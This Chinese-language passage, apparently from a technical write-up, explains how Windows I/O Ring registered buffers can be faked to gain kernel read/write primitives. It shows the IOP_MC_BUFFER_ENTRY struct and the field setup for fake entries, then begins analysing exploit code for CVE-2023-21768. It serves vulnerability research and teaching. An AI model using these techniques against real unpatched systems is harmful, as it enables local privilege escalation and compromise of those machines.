     ```plain
    typedef struct _IOP_MC_BUFFER_ENTRY
    {
     USHORT Type;
     USHORT Reserved;
     ULONG Size;
     ULONG ReferenceCount;
     ULONG Flags;
     _LIST_ENTRY GlobalDataLink;
     PVOID Address;
     ULONG Length;
     CHAR AccessMode;
     ULONG MdlRef;
     struct _MDL* Mdl;
     KEVENT MdlRundownEvent;
     PULONG64 PfnArray;
     BYTE PageNodes[1];
    } IOP_MC_BUFFER_ENTRY, * PIOP_MC_BUFFER_ENTRY;
    ```
    
    这导致一些变化，还是分配一个假缓冲区数组大小为 sizeof(PVOID) \* NumberOfEntries。其次为每个假缓冲区分配 IOP\_MC\_BUFFER\_ENTRY 结构，并将指针放入假缓冲区数组中。然后用下方代码进行一些设置即可
    
    ```plain
    mcBufferEntry->Address = TargetAddress;
    mcBufferEntry->Length = Length;
    mcBufferEntry->Type = 0xc02;
    mcBufferEntry->Size = 0x80; // 0x20 * (numberOfPagesInBuffer + 3)
    mcBufferEntry->AccessMode = 1;
    mcBufferEntry->ReferenceCount = 1;
    ```
    
    \## **CVE 利用代码分析**  
    这里结合实际的 CVE-2023-21768 漏洞来探究其真实漏洞场景中的实现步骤  
    用户初始化 I/O Ring 有两个独立的结构，一个用户态 一个内核态  
    而在内核态有两个对象就是我们上文介绍中提到的 RegBuffersCount RegBuffers  
    用户态调用 kernelbase!CreateIoRing 成功后，您将返回一个 I/O 环句柄。这个句柄是一个指向未记录结构的指针  
    如果漏洞能做到去更新 RegBuffersCount RegBuffers 字段，那么我们就能使用 I/O Ring api 来进行内核内存的读写原语。  
    漏洞利用代码中主要有两个文件是主要操作  
    ioring\_lpe.c -- getobjptr 函数主要就是从系统句柄信息中查找指定进程和句柄值对应的对象地址  
    通过\_NtQuerySystemInformation 查询系统句柄信息，然后又对句柄进行信息遍历等操作，最后释放内存和返回。
